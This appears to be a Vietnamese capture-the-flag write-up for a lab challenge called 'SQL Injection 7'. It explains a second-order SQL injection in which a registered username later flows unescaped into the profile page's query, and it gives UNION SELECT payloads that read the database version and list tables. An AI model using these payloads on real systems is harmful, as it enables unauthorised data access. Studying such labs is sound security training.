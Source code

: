 # SQL Injection 7  
## Thử thách về lỗi bảo mật SQL Injection
## Mục tiêu: Tìm secret trong database
# Phân tích
Có chức năng đăng nhập, đăng ký  
Web hỗ hộ trợ xem lại thôn tin email ki đăng ký.  
# Đọc code
Ở đây sử dụng Parameterized Queries/Prepared Statements.  
- Thực hiện truy vấn tham số hóa (Parameterized Queries/Prepared Statements): Các framework cung cấp cách sử dụng truy vấn tham số hóa để tách biệt giữa câu lệnh SQL và dữ liệu đầu vào. Điều này đảm bảo rằng dữ liệu người dùng sẽ không được xem là một phần của câu lệnh SQL, từ đó ngăn chặn SQL Injection.  
```
$sql = "SELECT username FROM users WHERE username=? and password=?";
$statement = $database->prepare($sql);
$statement->bind_param('ss', $_POST['username'], md5($_POST['password']));
$statement->execute();
$statement->store_result();
$statement->bind_result($result);
```
register:
```
} else {
    $sql = "INSERT INTO users(username, password, email) VALUES (?, ?, ?)";
    $statement = $database->prepare($sql);
    $statement->bind_param('sss', $_POST['username'], md5($_POST['password']), $_POST['email']);
    $statement->execute();
    $message = "Create successful";
```
login:  
<img src='./img/Screenshot 2025-08-03 at 23.36.50.png'>  
Có chức năng của `profile`:  
<img src='./img/Screenshot 2025-08-03 at 23.35.18.png'>  
- Ở dòng `17` login `$_SESSION["username"] = $result;` đây là kết quả từ câu query trước đó.
- `$_SESSION["username"]` lại được sử dung trong `profile`. dòng 9
-  dòng 12 profile: ở đây sử dụng lại `username` ở dòng 9 --> nếu thao túng được `username` để biến đổi câu sql ```SELECT email FROM users WHERE username='abc' UNION SELECT version() -- ' ```
- Thấy register ko có Validate gì cả .
# Khai thác
đăng ý 1 user/pass, với user là `abc' UNION SELECT version() -- `. --> đăng ký thành công. Khi nhấn check email.
<img src='./img/Screenshot 2025-08-03 at 23.47.55.png'>  
H tìm tất cả các `table_name`.  
Vì có 1 row nên sử dụng `GROUP_CONCAT(table_name)`, bị giới hạn user name nên ko where được `database()` hiện tại.  
```
a' UNION SELECT GROUP_CONCAT(table_name) FROM  information_schema.tables -- 
```
<img src='./img/Screenshot 2025-08-04 at 00.20.12.png'>